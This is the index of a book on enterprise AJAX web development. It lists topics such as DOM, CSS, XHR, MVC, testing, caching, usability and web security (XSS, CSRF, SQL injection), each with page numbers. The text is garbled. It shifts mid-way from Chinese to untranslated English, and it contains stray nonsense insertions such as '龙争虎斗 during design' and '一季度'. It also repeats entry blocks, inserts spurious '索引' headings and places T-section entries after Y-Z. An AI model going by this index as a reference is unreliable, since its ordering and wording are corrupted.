  - 只读锁，271
- 冲突
  - 识别，272-274
  - 解决，275
- `Content-Expires` 头，268
- 上下文切换，13-14
- 上下文选择器，53
- 持续集成，225-226
- 契约（SOA），299
- 控制器（MVC 模式），104-105，121-130
- 核心规范（DOM Level 2），42
- Corporate Technology Partners（CTP）案例研究，425
  - 背景，425
  - 挑战，426-427
  - 结果，428
  - 解决方案，427
  - 应用技术，427
- 每次点击成本（CPC）模型，413
- 每千次展示成本（CPM）模型，413
- CPC（每次点击成本）模型，413
- CPM（每千次展示成本）模型，413
- 增、删、改、查（CRUD）操作，106
- `createGMap` 函数，146
- `createTextNode()` 方法，46
- `createXHR()` 函数，72
- CRM（客户关系管理），1，84
- Crockford, Douglas，35
- 跨域 Web 服务，309
  - Flash 跨域 XML，315
  - 脚本注入，315-317
  - 服务器代理，310-312
  - URL 片段标识符，312-315
- 跨浏览器事件，65-66
- 跨域漏洞，319
  - CSRF，325-326
  - XSS，319
    - 攻击特征，319-321
    - 正向过滤，324
    - 用户输入过滤，321-323
    - 用户信任，325
- 跨站请求伪造（CSRF），325-326
- 跨站脚本。参见 XSS
- CRUD（增、删、改、查）操作，106
- CSRF（跨站请求伪造），325-326
- CSS（层叠样式表），18，25，48
  - 盒模型，89
    - 层叠，49
    - 顺序，50
    - 特异性，50
    - 样式来源，49
  - 动态样式，55
    - 类属性，56-57
    - 样式对象，56
    - 样式表对象，57-59
  - 继承，49
  - 内联样式，50-51
  - 属性，148
  - 样式表，51
    - 属性选择器，54-55
    - 类选择器，54-55
    - 上下文选择器，53
    - ID 选择器，52
    - 伪类选择器，53-54
  - 设计决策的验证，206-207
- CSS3 规范，`box-sizing` 规则，91
- `cssRules` 属性，58
- CTP（Corporate Technology Partners）案例研究，425
  - 背景，425
  - 挑战，426-427
  - 结果，428
  - 解决方案，427
  - 应用技术，427
- `Ctrl + N` 快捷键，7
- `Ctrl + V` 快捷键，7
- 文化风险，400，407
  - 最终用户的期望，407
  - 法律问题，409-410
  - 可培训性，408-409
- Curl 库，310
- 自定义声明式组件
  - 行为方式，152-156
  - DataGrid 控件，148-152
  - 声明方式，156
    - 抽象声明，163-167
    - 数据绑定，157-159
    - 模板化，160-163
- `Customer` 类，177
- 客户管理器，189
- 客户关系管理（CRM），1，84
- `CustomerFactory` 类，176

## D

- 数据
  - 中心性，15
  - 加密，334-336
  - 格式
    - 应用程序，18
    - JSON，79-81
    - XHR，78
    - XML，78-79
  - 实时，275
  - 静态，275
  - 流，275
  - 传输（XHR），76-77
  - 传输，18
  - 设计决策的验证，201
    - JSON，205-206
    - 资源，202
    - XML 和 XSLT，203-204
- 数据库
  - 缓存，269-270
  - 性能，294
  - 服务器，负载均衡，281
- 数据绑定
  - Internet Explorer，157-158
  - XForms，158-159
- `DATAFLD` 属性，157
- `DataGrid` 控件，84
  - 自定义，148-152
  - 定义网页，140-141
- `DataModel` 类，108
- `DATASRC` 属性，157
- `Date` 对象，基准测试代码，197
- `debug()` 函数（JSUnit），211
- 调试，226
  - Fiddler，231
  - Firebug，229
  - MS Developer Toolbar，230
  - MS Script Debugger，227-228
  - Safari，231
  - Venkman，226-227
- 声明式组件，139
  - 组件配置的替代方案，147-148
  - 自定义声明式组件
    - 行为方式，152-156
    - DataGrid 控件，148-152
    - 声明方式，156-167
  - 服务器端声明式编程，141
    - DataGrid 控件，140-141
    - Google Maps，142-147
- 装饰器模式，38-39
- `DEFER` 属性，97
- 延迟脚本，97-98
- `DELETE` 方法，264
- `deleteRule()` 方法，58
- 国防部（DOD）案例研究，425
  - 背景，425
  - 挑战，426-427
  - 结果，428
  - 解决方案，427
  - 应用技术，427
- 部署，232
  - 文档，240-243
  - 图片合并，238-239
  - JavaScript 压缩，232
    - 代码最小化，233-235
    - 预期结果，238
    - GZip 压缩，235-237
  - 知识产权保护，240
  - 资源，244-245
- 设计，184
  - 应用程序，18
  - 建模，184-185
  - 模式，26
    - 装饰器，38-39
    - 外观，60
    - 单例，27-28
  - MVC 模式，185-186
  - 预防性能问题，186-188
  - 原型设计，188-189
    - 设计决策的验证，196-208
    - 线框图创建，188-196
  - 资源，244-245
  - 测试，208
    - 调试，226-231
    - 测试驱动开发，209-211，216-226
  - 可用性测试，368-369
- 《设计模式：可复用面向对象软件的基础》，26
- 《设计可视化界面：以通信为导向的技术》，418
- `detachEvent()` 方法，65，127
- 摘要认证（HTTP），336
- 可发现性（SOA），300
- 显示模式
- `dispose()` 方法，169
- DOCTYPE（文档类型定义），87-88
- 文档对象模型。参见 DOM
- 文档类型定义（DOCTYPE），87-88
- `document.onreadystatechange` 变化事件，99-100
- 文档，部署，240-243
- DOD（国防部）案例研究，425
  - 背景，425
  - 挑战，426-427
  - 结果，428
  - 解决方案，427
  - 应用技术，427
- Dojo，2
- DOJO 基金会，234
- DOM（文档对象模型），18，25，42
  - 基础，43-46
  - 操作，46-48
  - 设计决策的验证，206-207
- DOM Level 2，42
- DOM 存储（Firefox），284
- `DOMContentLoaded` 事件，97
- 《Don't Make Me Think》，418
- 点号表示法，27
- 拖放技术
- 下钻技术，388-389
- AJAX 采用的驱动因素，10
  - 数据中心性，15
  - 增量升级，16
  - 网络利用率，14-15
  - 服务器独立性，16
  - 可用性，10-14
- 重复内容，412
- `Duration` 参数，267
- 动态内容（JAWS），362
- 动态样式（CSS），55
  - 类属性，56-57
  - 样式对象，56
  - 样式表对象，57-59

## E

- ECMA Script，18
- `Edit()` 函数，65
- `editName()` 函数，63
- Edwards, Dean，35
- `element.addEventListener()` 方法，125
- `element.attachEvent()` 方法，125
- `encodeURIComponent()` JavaScript 函数，311
- 最终用户
  - 文化/政治风险，407
  - Web 服务协议选择，302
- `entAJAX` 命名空间，41
- `entAjax.close()` 方法，73
- `entAjax.elements` 哈希表，145
- `entAJAX.EventManager.m_notify()` 方法，125
- `entAJAX.extend`，111
- `entAjax.getElementsByTagNameNS` 函数，146
- `entajax.toolkit.js` 文件，144
- 企业资源规划（ERP），1，84
- 实体标签（ETag）头，261
- ERP（企业资源规划），1，84
- 错误处理（JavaScript），40
- ETag（实体标签）头，261
- `eval()` 函数，80，200
- `eval()` 方法（JavaScript），205
- `Event` 对象，68
- `EventManager` 对象，122
- `EventManager` 单例对象，66
- 事件，59-60
  - 绑定，62
    - 内联事件，62-63
    - 编程式事件处理程序，63-64
    - 注册，64-65
    - 跨浏览器，65-66
  - `Event` 对象，68
  - 流，60-62
  - 处理程序，75
  - `onclick`，60
  - `onreadystatechange`，71，74
- Events 规范（DOM Level 2），42
- `example.init` 函数，122
- `Expires` 头，263
- `extend` 函数，36
- 可扩展超文本标记语言（XHTML），17
- 可扩展标记语言（XML），18，78-79，203-204
- 可扩展样式表语言模板。参见 XSLT
- ExternalInterface 库（Flash），21

## F

- FA Bridge（Adobe），2
- Facade 模式，60
- 工厂模式（XHR），71-72
- 渐隐效果
- Fiddler，231
- 文件压缩，236-237
- `finally` 代码块，40
- Firebug，229
- Firefox，305-306
  - 3.0 版本发布，405
  - 离线存储，284-286
- 防火墙，336
- Fireworks，195-196
- `firstChild` 属性，45
- Flash
  - 跨域 XML，315
  - 离线存储，288-292
- Flex，21
- `Foo` 函数，29
- `format-number()` 函数，204
- 向前兼容性，405-406
- `Function` 对象，33-34
- 功能测试，216-222
- 函数。另请参见方法
  - `$$$`，153
  - `buildCustomerList()`，79
  - `clearInterval()`，251
  - `completeCallback`，75
  - `createGMap`，146
  - `createXHR()`，72
  - `debug()`（JSUnit），211
  - `Edit()`，65
  - `editName()`，63
  - `entAjax.getElementsByTagNameNS`，146
  - `EncodeURIComponent()`，311
  - `eval()`，80，200
  - `example.init`，122
  - `extend`，36
  - `Foo`，29
  - `format-number()`，204
  - `getElementsByClassName()`，153
  - `global sort()`，154
  - `Highlight()`，65
  - `inform()`（JSUnit），211
  - `initComponents()`，172
  - `makeSortable()`，153-154
  - `ob_end_flush()`，266
  - `ob_start()`，266
  - `setCapture()`，128
  - `setInterval`，39
  - `setTimeout`，39
  - `setTimeout()`，198
  - `setUp()`（JSUnit），211
  - `setUpPage()`（JSUnit），211
  - `showResult()`，72
  - `sort()`，154
  - `tearDown()`（JSUnit），211
  - `updateOrders`，251
  - `warn()`（JSUnit），211
- 基础知识（DOM），43-46

## G

- 四人帮（GoF），26
- `GET` 方法，264
- `getAttribute()` 节点，47
- `getElementById(elementId)` 方法，45
- `getElementsByClassName()` 函数，153
- `getFullName()` 方法，32-33
- `getTime()` 方法，198
- `GLatLng` 点，138
- `global sort()` 函数，154
- `globalStorage`（Firefox DOM 存储），285-286
- GoF（四人帮），26
- 镀金（过度设计），419-420
- Google Maps，136-139
  - 声明式方法，142-143
  - 声明式组件，144-147
- Google Sitemaps，417-418
- Google Web Toolkit（GWT），2
- Googlebot，411
- `GPolyLine` 对象，138
- Greenfield, Ely，365
- `GridFactory fromDeclaration()` 方法，177
- GWT（Google Web Toolkit），2
- GZip 压缩，235-237
- gZIP 压缩 JavaScript，357

## H

- 哈希方法，344-347
- 哈希表示法，27
- `HEAD` 方法，264
- `HEAD` 请求，262
- 头信息
  - `Cache-Control`，263
  - `Content-Expires`，268
  - Entity Tag，261
  - `Expires`，263
  - `If-Match` 请求，274
  - `If-Modified-Since`，262
  - `If-None-Match`，262
  - `Last-Modified`，261
  - `Pragma`，263
- `Highlight()` 函数，65
- 劫持
  - 浏览器，322
  - JavaScript，327-328
- Hjax，414
- 热键，7
- HTML 规范（DOM Level 2），42
- HTML 标准，86
  - 盒模型，89-91
  - 文档类型定义，87-88
- HTTP
  - 1.1 规范，264
  - 基本认证，336
  - 摘要认证，336
  - 动词，296
- `HttpRequestCache` 类，258
- HTTPUnit，211

## I

- `id` 属性，149
- ID 选择器，52
- IDE（集成开发环境），118
- IE8（Internet Explorer 8），406
- `If-Match` 请求头，274
- `If-Modified-Since` 头，262
- `If-None-Match` 头，262
- iFrame 方法，347-349
- Illustrator，195-196
- 图片合并，238-239
- 命令式组件，135-139
- 就地编辑，384-388
- 增量式 AJAX，85
- 渐进式升级，16
- `inform()` 函数（JSUnit），211
- 继承
  - CSS，49
  - JavaScript，34-38
- `initComponents()` 函数，145，172
- 内联事件，62-63
- 内联样式（CSS），50-51
- `innerHTML` 属性，47，118
- `insertBefore()` 方法，155
- `insertRule()` 方法，58
- 集成开发环境（IDE），118
- 集成层，248
- 知识产权，240
- 交互会话面板（Venkman 调试器），227
- 交互性
  - 应用程序，18
  - 模式，384
- 重要时刻矩阵，192-193
- Internet Explorer，307-308
  - 数据绑定，157-158
  - 离线存储，287-288
- Internet Explorer 8（IE8），406
- 互操作性，Web 服务协议选择，301
- 不可见文本，412
- `IObserver` 接口，115
- iShowU，422
- ISS 文件压缩，237
- `ISubject` 接口，109-111

## J

- Java 小程序，20
- Java Web Start，21
- JavaScript，25，199-201
  - 无障碍访问，360
  - 优化，357
  - 劫持，327-328
  - 闭包，28-29
  - 压缩，232
    - 代码最小化，233-235
    - 预期结果，238
    - GZip 压缩，235-237
  - 错误处理，40
  - 继承，34-38
  - 命名空间，41-42
  - 对象可变性，38-39
  - 面向对象，29
    - 私有成员，32-33
    - 公有成员，31-32
    - `prototype` 属性，33-34
  - 线程，39
  - 类型，26-27
- JavaScript 对象表示法（JSON），79，81，205-206
- JAWS
  - 动态内容，362
  - 按键，366
  - 虚拟 PC 光标模式，361
- 兼容 JAWS 的 AJAX 交互，361-364
- 抖动，355
- 职业趋势，9
- JSDoc，241
- JSMock，211
- JSON（JavaScript 对象表示法），79，81，205-206
- JSON 模板（JSONT），120
- JUnit，210

## K

- 键盘无障碍访问，364-366
- Keynote，193
- 关键字
  - `new`，26
  - `this`，73-74
  - `var`，32

## L

- `Last-Modified` 头，261
- 延迟，353
- 法律问题，409-410
- 实时数据，275
- 实时表单，395-396
- 实时搜索，391-395
- 负载均衡，280-281
- 已加载脚本面板（Venkman 调试器），226
- `LoadMyComponent` 处理器，95
- 局部变量面板（Venkman 调试器），226
- 锁定，271-272
- 松耦合（SOA），299

## M

- Macromedia XML（MXML），135
- 维护
  - 风险
    - 评估/最佳实践，420
    - 技术风险，404-405
- `makeEditable()` 方法，387
- `makeSortable()` 函数，153-154
- 管理，风险，399
- 操作（DOM），46-48
- 手动测试，224
- 市场风险，400
  - 盈利模式，413
  - 覆盖范围，412-413
  - 搜索引擎可访问性，410-412
- META REFRESH 指令，250
- `method` 字段（`entAjax.elements` 键），145
- 方法。另请参见函数
  - `attachEvent()`，66-67
  - `addEventListener()`，64-66
  - `addRule()`，58
  - `appendChild()`，47
  - `apply`，38
  - `attachEvent()`，64，127
  - `call`，38
  - `changeStyle()`，59
  - `changeStyleSheet()`，59
  - `createTextNode()`，46
  - `DELETE`，264
  - `deleteRule()`，58
  - `detachEvent()`，65，127
  - `dispose()`，169
  - `element.addEventListener()`，125
  - `element.attachEvent()`，125
  - `entAjax.close()`，73
  - `entAJAX.EventManager.m_notify()`，125
  - `eval()`（JavaScript），205
  - `GET`，264
  - `getElementById(elementId)`，45
  - `getFullName()`，32-33
  - `getTime()`，198
  - `GridFactory fromDeclaration()`，177
  - `HEAD`，264
  - `initComponents()`，145
  - `insertBefore()`，155
  - `insertRule()`，58
  - `m_notify()`，125
  - `m_renderReady()`，178
  - `notify()`，111
  - `open()`，72
  - `POST`，264
  - `post()`，76
  - `PUT`，264
  - `read()`，175
  - `removeEventListener()`，65
  - `removeRule()`，58
  - `render()`，169，178
  - `requestComplete()`，75
  - `returnAJAXContent()`，416
  - `selectNodes(xpath)`，78
  - `selectSingleNode(xpath)`，78
  - `setCapture()`，62
  - `setDataSource()`，178
  - `setInterval()`，251
  - `setParam()`，76
  - `showCustomer()`，45
  - `stopPropagation()`，61
  - `subscribe()`，111
  - `unSubscribe()`，111
- 微软用户体验指南，364-366
- 模型（MVC 模式），105-116
- 模型-视图-控制器模式。参见 MVC 模式
- `MODEL` 属性，158
- 建模，设计，184-185
- `mod_proxy` Web 代理（Apache），311
- `mod_rewrite` Web 代理（Apache），311
- 盈利模式，市场风险，413
- Morae，369
- `mouseOver` 类，58
- Mozilla 浏览器，20
- MS 开发者工具栏，230
- MS 脚本调试器，227-228
- MS SQL Server，270
- 可变性，JavaScript 对象，38-39
- MVC 模式
  - （模型-视图-控制器），100
  - 控制器，104-105，121-130
  - 设计，185-186
  - 模型，105-116
  - 资源，133
  - 视图，101-104，116-120
- MXML（Macromedia XML），135
- MySQL
  - 数据库缓存，269

## N

- N 层架构，247-249
- 命名空间，41-42
- 反向过滤，323
- NetMeeting，370
- 网络利用率，14-15
- `new` 关键字，26
- `nextSibling` 属性，45
- Nitobi 的向导组件，422
- `Node` 对象，43
- `NODESET` 属性，158
- null 原始类型（JavaScript），26
- number 原始类型（JavaScript），26
- `notify()` 方法，111

## O

- OASIS（结构化信息标准促进组织），298
- object 复杂类型（JavaScript），26
- 面向对象 JavaScript，29
  - 私有成员，32-33
  - 公有成员，31-32
- 对象
  - `Event`，68
  - `EventManager` 单例，66
  - `Function`，33-34
  - 可变性（JavaScript），38-39
  - `Node`，43
  - `this`，31
- 过时，技术风险，407
- `ob_end_flush()` 函数，266
- `ob_start()` 函数，266
- 离线 AJAX，282-283
  - 并发，292
  - 资源，294
- 离线存储
  - Firefox，284-286
  - Flash，288-292
  - Internet Explorer，287-288
- `oldLoader` 变量，95
- `onclick` 事件，60
- `onload` 事件，91-95
- `onreadystatechange` 事件，71，74
- `onreadystatechange` 事件处理器，75
- `onunload` 事件，130
- Open AJAX 联盟，2
- Open Office Impress，193
- `open()` 方法，72
- OpenLaszlo，22
- Opera，406
- OPIS（运营信息系统）（Agrium, Inc.），429
  - 背景，429
  - 挑战，429-430
  - 成果，433
  - 解决方案，430-431
  - 应用技术，432
- 运营信息系统（OPIS）（Agrium Inc.），429
  - 背景，429
  - 挑战，429-430
  - 成果，433
  - 解决方案，430-431
  - 应用技术，432
- solution，430-431
- technologies applied，432
- optimistic locking，272
- Oracle
  - ADF，2
  - caching in the database，270
- order（CSS），50
- Organization for the Advancement of Structured Information Standards（OASIS），298
- OWA（Outlook Web Access），3

## P

- page weight，352-357
- patterns（user interface），373
- PE（progressive enhancement），414
- performance
  - databases，294
  - 龙争虎斗 during design，186-188
- pessimistic locking，271
- Phish attacks，322
- Plain Old JavaScript Objects（POJSO），107
- POJSO（Plain Old JavaScript Objects），107
- political risk，400
  - end users' expectations，407
  - legal issues，409-410
  - trainability，408-409
- polling，250-251
- positive filtering（XSS），324
- `POST` method，264
- PowerPoint，193-194
- `Pragma` header，263
- prefetching（rollover），383
- prepared statements（SQL Injection），331-332
- presentation tier，248
- `previousSibling` property，45
- privacy，334-336
- private members，object-oriented JavaScript，32-33
- programmatic event handlers，63-64
- programming patterns，19
- progress bars，376
- progressive enhancement（PE），414
- `ProgressMeter` class，376
- properties
  - `baseConstructor`，37
  - `cancelBubble`，61
  - `className`，56
  - CSS，148
  - `cssRules`，58
  - `firstChild`，45
  - `innerHTML`，47，118
  - `nextSibling`，45
  - `previousSibling`，45
  - `prototype`，37
  - `srcElement`，68
  - `target`，68
- protection，intellectual property，240
- protocols，Web Services，300
  - end users，302
  - existing architecture，301
  - interoperability，301
  - REST，296-297
  - scalability，301
  - XML-RPC，297
- `Prototype` JavaScript library，34
- `prototype` property（JavaScript），33-34，37
- prototyping
  - design，188-189
  - verification of design decisions，196-197

## 索引

- AJAX compromise，207-208
- benchmarking，197-199
- data，201-206
- DOM and CSS，206-207
- JavaScript，199-201
- wireframe creation，188-192
  - Fireworks/Illustrator，195-196
  - interesting moments matrix，192-193
  - presentation software，193-194
  - Visio，194-195
- pseudo selectors，53-54
- public members，object-oriented JavaScript，31-32
- `PUT` method，264
- `read()` method，175
- read-only locking，271
- `REF` attribute，158
- reference model（SOA），298-299
- registration，events，64-65
- regression testing，222-224
- Rehabilitation Act，409
- `RemoteDataModel` class，173-176
- `removeEventListener()` method，65
- `removeRule()` method，58
- `render()` method，169，178
- `Representational State Transfer`（REST），293-297
- `requestComplete()` method，75
- requests，253-254
- reserved checkout，271
- resources
  - AJAX，24
  - AJAX building blocks，82
  - AJAX in the web browser，133
  - architecture，293-294
  - case studies，441
  - data verification一季度设计决策，202
  - deployment，244-245
  - locking，271
  - design，244-245
  - MVC pattern，133
  - roadmaps，423
  - screen capture tools，423
  - search engine optimization，423
  - security，337
  - usability，371-372
  - Web Services，337
- REST（Representational State Transfer），293-297
- `returnAJAXContent()` method，416
- revenue models，420-421
- Rhino-based compression，234
- risk，400
  - assessment，413
  - avoidance of gold plating，419-420
  - effective revenue models，420-421
  - Google Sitemaps，417-418
  - maintenance and testing，420
  - PE（progressive enhancement），414
  - specialized AJAX frameworks/components，414
  - unobtrusive JavaScript，415-416
  - user training，421-422
  - visual cues/affordances，418-419
  - cultural/political，400
    - end users' expectations，407
    - legal issues，409-410
    - trainability，408-409
  - management，399
  - marketing，400
    - monetization，413
    - reach，412-413
    - search engine accessibility，410-412
  - technical，400-401
    - browser capabilities，403-404
    - forward-compatibility，405-406
    - maintenance，404-405
    - obsolescence，407
    - reach，401-403
    - third-party tool support，407

## S

- Safari，231，350-352，406
- `save()` method，387
- scalability，Web Service protocol selection，301
- scaling，278-281
- Scaling Vector Graphics（SVG），135
- screen capture tools，422-423
- screen readers，360-364
- scripts
  - applications，18
  - injection，Cross domain Web Services，315-317
  - placement，96
- search engines
  - accessibility，410-412
  - optimization，423
- Search Engine Optimization（SEO），410
- search engine results pages（SERPs），410
- Section 255（Telecommunications Act），409
- Section 508（Rehabilitation Act），409
- security，317-319
  - cross-domain vulnerabilities
    - CSRF，325-326
    - XSS，319-325
  - data encryption，334-336
  - firewalls，336
  - privacy，334-336
  - resources，337
  - SQL Injection，330
    - prepared statements，331-332
    - stored statements，332-333
  - XPath Injection，333
- `SELECT` statements（MySQL），269
- `selectNodes(xpath)` method，78
- `selectSingleNode(xpath)` method，78
- Selenium RC，217
- SEO（Search Engine Optimization），410
- SERPs（search engine results pages），410
- server proxys，Cross domain Web Services，310-312
- server push
  - Comet，252-253
  - polling，250-251
- server response（XHR），74-76
- server-independence，16
- server-side declarative programming，141
  - alternative approaches，147-148
  - DataGrid control，140-141
  - Google Maps，142-147
  - imperative components，135-139

## 索引

### Servers

- asynchronous messaging，249-250
- attacks against，317
- caching on，265-269
- component-based AJAX，85-86
- concurrency，270
  - automated conflict resolution，275-276
  - conflict identification，272-274
  - conflict resolution，275
  - optimistic locking，272
  - pessimistic locking，271
  - read-only locking，271
- server push
  - Comet，252-253
  - polling，250-251
- throttling，278

- Service Oriented Architectures。参见 SOA
- `sessionStorage`，Firefox DOM storage，284
- `setAttribute()` 节点，47
- `SetCacheability` 设置，267
- `setCapture()` 函数，62，128
- `setDataSource()` 方法，178
- `setInterval` 函数，39，251
- `setParam()` 方法，76
- `setTimeout` 函数，39，198
- `setUp()` 函数（JSUnit），211
- `setUpPage()` 函数（JSUnit），211
- Shenker 案例研究，433
  - 背景，434
  - 挑战，434-435
  - 结果，439-440
  - 解决方案，436-438
  - 应用技术，438-439
- `showCustomer()` 方法，45
- `showResult()` 函数，72
- Simple Object Access Protocol（SOAP），296
- `SimpleDataModel` 类，173
- `SimpleDataTable` 类，211
- `SimpleGrid` 类，169
- `SimpleGridColumn` 对象，171
- 单节点绑定属性，158
- Singleton 设计模式，27-28，122
- smoke test，223-224
- SOA（Service-Oriented Architecture），15，295，298-299
  - 抽象，300
  - 自治性，299
  - 可组合性，300
  - 契约，299
  - 可发现性，300
  - 松耦合，299
  - 参考模型，298-299
  - 可重用性，299
  - 无状态性，300
- SOAP（Simple Object Access Protocol），296，302
  - Firefox，305-306
  - Internet Explorer，307-308
  - WSJL，303-305
- 软件辅助可用性测试，369-370
- `sort()` 函数，154
- 源代码视图（Venkman 调试器），227
- 来源，风险，400
  - 文化/政治，400，407-410
  - 市场，400，410-413
  - 技术，400-407
- spaghetti code，404
- 专用 AJAX 框架/组件，414
- 特异性（CSS），50
- Spool, Jared，355
- Spry，3
- SQL 注入，330
  - 准备语句，331-332
  - 存储语句，332-333
  - XPath 注入，330-333
- `srcElement` 属性，68
- 标准，86
  - 盒模型，89-91
  - 文档类型定义，87-88
  - Web 服务，295
- 无状态性（SOA），300
- 静态数据，275
- `stopPropagation()` 方法，61
- 存储语句（SQL 注入），332-333
- 流数据，275
- 字符串原始类型（JavaScript），26
- 结构，应用程序，17
- 样式对象（HTML DOM），56
- 样式来源（CSS），49
- Style 规范（DOM Level 2），42
- `styles` 字段（`entAjax.elements` 键），145
- 样式表对象，57-59
- 样式表（CSS），51
  - 属性选择器，54-55
  - 类选择器，54-55
  - 上下文选择器，53
  - ID 选择器，52
  - 伪类选择器，53-54
  - XSLT，161
- 子组件，339
- `SubjectHelper` 类，109
- `subscribe()` 方法，111
- SVG（Scaling Vector Graphics），135
- 同步请求，253-254

## T

- `target` 属性，68
- TDD（测试驱动开发），209
  - 浏览器测试，224
  - 持续集成，225-226
  - 功能测试，216-222
  - 手动测试，224
  - 回归测试，222-224
  - 单元测试，210-211
- `tearDown()` 函数（JSUnit），211
- 技术风险，400-401
  - 浏览器能力，403-404
  - 向前兼容性，405-406
  - 维护，404-405
  - 过时，407
  - 覆盖范围，401-403
  - 第三方工具支持，407
- 技术，17-18
- Telecommunications Act，409
- 模板化，160-163
- 测试驱动开发。参见 TDD
- `testBehaviouralGrid()` 测试，221
- 测试，208
  - 调试，226
    - Fiddler，231
    - Firebug，229
    - MS Developer Toolbar，230
    - MS Script Debugger，227-228
    - Safari，231
    - Venkman，226-227
  - 风险评估/最佳实践，369-370，420
  - 测试驱动开发（TDD），209
    - 浏览器测试，224
    - 持续集成，225-226
    - 功能测试，216-222

## U

UCAD（带自动检测的未预留检出），272  
UDDI（通用描述、发现和集成），300

- UI（用户界面），1，373
- undefined 基本类型（JavaScript），26
- 单元测试，210-211
- 通用描述、发现和集成（UDDI），300
- 非侵入式 JavaScript，415-416
- 带自动检测的未预留检出（UCAD），272
- `unSubscribe()` 方法，111
- `updateOrders` 函数，251
- URL 片段标识符，跨域 Web 服务，312-315
- 可用性，339
  - 可访问性，358
    - 识别有需求的用户，359
    - JavaScript 与可访问性，360
    - 符合 JAWS 的 AJAX 交互，361-364
    - 键盘，364-366
    - 屏幕阅读器，360-361
  - AJAX 开发面临的挑战，340
    - 自动提交，357-358
    - 后退按钮，340-343
    - 书签功能，340-352
    - 页面重量，352-357
  - 资源，371-372
  - 子组件，339
  - 测试，367
    - 设计，368-369
    - 参与者招募，368
    - 软件辅助，369-370
- 用户输入过滤（XSS），321-323
- 用户界面（UI），1，373
- 用户培训，421-422
- `userData` 行为，287-288

## V

- `var` 关键字，32
- `VaryByParam` 参数，267
- 矢量标记语言（VML）行为，137
- Venkman 调试器，226-227
- 设计决策验证，196-197
  - AJAX 折中方案，207-208
  - 基准测试，197-199
  - 数据
    - JSON，205-206
    - 资源，202
    - XML 和 XSLT，203-204
  - DOM 和 CSS，206-207
  - JavaScript，199-201
- 视图（MVC 模式），101-104，116-120
- 虚拟桌面，13
- 虚拟 PC 光标模式（JAWS），361
- Visio，194-195
- 视觉提示，418-419
- VML（矢量标记语言）行为，137

## W

- `warn()` 函数（JSUnit），211
- Web 浏览器，83-86
- Web 服务描述语言（WSDL），299
- Web 服务，295-296
  - 跨域，309
    - Flash 跨域 XML，315
    - 脚本注入，315-317
    - 服务器代理，310-312
    - URL 片段标识符，312-315
  - 协议，300
    - 终端用户，302
    - 现有架构，301
  - 互操作性，301
  - REST，296-297
  - 可扩展性，301
  - XML-RPC，297
  - 资源，293，337
  - SOA，298-300
  - SOAP 消息，302-303
    - Firefox，305-306
    - Internet Explorer，307-308
  - WSJL，303-305
  - 与 Web 服务的对比，295-296
- Web 服务 JavaScript 库（WSJL），303-305
- Web Start（Java），21
- 基于 Web 的应用程序，1-3，6-8
- Windows Presentation Foundation（WPF），20
- 线框图创建
  - Fireworks/Illustrator，195-196
  - 演示软件，193-194
  - 原型设计，188-193
  - Visio，194-195
- WPF（Windows Presentation Foundation），20
- WSDL（Web 服务描述语言），299
- WSJL（Web 服务 JavaScript 库），303-305

## X

- XAML，20
- XBL（XML 绑定语言），135
- XForms，158-159
- XHR（XMLHttpRequest），25，70
  - 异步请求，72-73
  - 数据格式
    - JSON，79-81
    - XML，78-79
  - 数据传输，76-77
  - 工厂模式，71-72
  - 服务器响应，74-76
- XHR（XMLHttpRequest）对象，3，18，249
  - 异步请求，72-73
  - 数据格式
    - JSON，79-81
    - XML，78-79
  - 数据传输，76-77
  - 工厂模式，71-72
  - 服务器响应，74-76
- XHTML（可扩展超文本标记语言），17
- XML（可扩展标记语言），18，78-79，203-204
- XML 绑定语言（XBL），135
- XML-远程过程调用（XML-RPC），297
- XML-RPC（XML-远程过程调用），297
- XMLHttpRequest 对象。参见 XHR 对象
- XMLHttpRequest。参见 XHR
- XPath 注入，333
- XSLT（可扩展样式表语言模板），103
  - 设计决策的数据验证，203-204
  - 样式表，161
  - XSLTemplate 对象，204
- XSS（跨站脚本），319
  - 攻击特征，319-321
  - 正向过滤，324
  - 用户输入过滤，321-323
  - 用户信任，325
- XUL，20

## Y-Z

- Yahoo 用户界面（YUI），2
- Yahoo! Mail，XSS 攻击，323
- 黄色渐隐效果，380
- YUI（Yahoo 用户界面），2

- 手动测试，224
- 回归测试，222-224
- 单元测试，210-211
- 可用性，367
  - 设计，368-369
  - 参与者招募，368
- 第三方工具支持，技术风险，407
- `this` 关键字，73-74
- `this` 对象，31
- 线程（JavaScript），39
- 三位数字代码，264
- 节流，276-278
- 吞吐量，353
- `throw` 语句，40
- 层（架构），247-248
- 工具提示（悬停），383
- 请求跟踪，253-254
- 传统 Web 应用程序，3-6
- `try` 块，40
